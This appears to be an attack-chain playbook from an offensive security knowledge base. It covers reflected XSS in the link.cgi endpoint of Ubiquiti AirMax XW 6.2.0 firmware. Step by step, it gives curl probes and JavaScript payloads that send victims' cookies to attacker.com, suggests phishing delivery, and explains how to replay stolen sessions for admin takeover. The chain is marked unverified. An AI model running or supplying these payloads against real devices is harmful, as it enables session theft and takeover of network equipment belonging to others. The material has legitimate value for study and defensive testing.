

# Reflected XSS in Ubiquiti AirMax Firmware link.cgi for Session Hijacking and Admin Takeover

Multi-stage attack chain demonstrating exploitation of reflected XSS in AirMax XW 6.2.0 firmware's link.cgi endpoints to inject JavaScript, capture session data, and impersonate admin users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]
- Web browser with developer tools

### Target Environment

- Ubiquiti AirMax XW 6.2.0 firmware device
- Web interface accessible over HTTP/HTTPS on default port 80/443
- Network access to the device's management interface

### Initial Access Requirements

- Valid user credentials or unauthenticated access to the web interface
- Attacker positioned to send requests to the target (e.g., same network or public exposure)
- No prior access needed beyond reaching the login page

## Detailed Attack Procedures

### Step 1: Access Web Interface

procedure: [[procedures/Exploit-Reflected-XSS-in-link-cgi]]

**Objective**: Locate and access the vulnerable link.cgi endpoints in the AirMax web interface to identify injectable parameters.

**Instructions**: Navigate to the device's web management interface using a browser or proxy tool like [[tools/Burp-Suite]]. Target URLs like http://<device-ip>/link.cgi with parameters such as 'url' or 'target' that are reflected in responses. Use [[commands/curl-xss-test]] to probe for reflection:

```bash
curl -X GET "http://<device-ip>/link.cgi?url=example" -v
```

Intercept and inspect responses in Burp to confirm unsanitized reflection of user input.

**Expected Output**: HTTP response containing reflected input without encoding, e.g., plain text echo of 'url=example' in HTML.

**Success Indicators**:
- User-supplied parameters visible in response body
- No output escaping observed (e.g., <script> tags not stripped)

### Step 2: Inject XSS Payload

procedure: [[procedures/Exploit-Reflected-XSS-in-link-cgi]]

**Objective**: Craft and deliver a malicious JavaScript payload via vulnerable parameters to execute in the victim's browser context.

**Instructions**: Modify the request parameters to include a payload like `<script>alert('XSS')</script>` or more advanced ones for session theft. Use [[commands/curl-xss-payload]] to test injection:

```bash
curl -X GET "http://<device-ip>/link.cgi?url=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>" -v
```

Deliver the link to a victim (e.g., via phishing) or test in a logged-in session. Monitor for script execution in browser console.

**Expected Output**: Alert popup or network request to attacker's server with stolen data.

**Success Indicators**:
- JavaScript executes in the browser (e.g., alert fires)
- Payload reflected and interpreted as code

### Step 3: Steal Session and Takeover

procedure: [[procedures/Exploit-Reflected-XSS-in-link-cgi]]

**Objective**: Exfiltrate session cookies or tokens to hijack the user's session and escalate to admin privileges.

**Instructions**: Use an advanced payload to capture and send session data, e.g., `<script>fetch('http://attacker.com/log?data='+btoa(document.cookie))</script>`. Replay captured cookies in a new browser session targeting admin functions. Validate takeover by accessing restricted areas like firmware configuration.

**Expected Output**: Attacker server receives base64-encoded cookie data; successful login with stolen session.

**Success Indicators**:
- Session cookies transmitted to attacker
- Admin dashboard accessible without credentials

## Attack Chain Summary

### Key Achievements

1. Identified multiple injectable parameters in link.cgi without sanitization
2. Executed arbitrary JavaScript in user/admin browser context
3. Achieved session hijacking leading to full admin account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
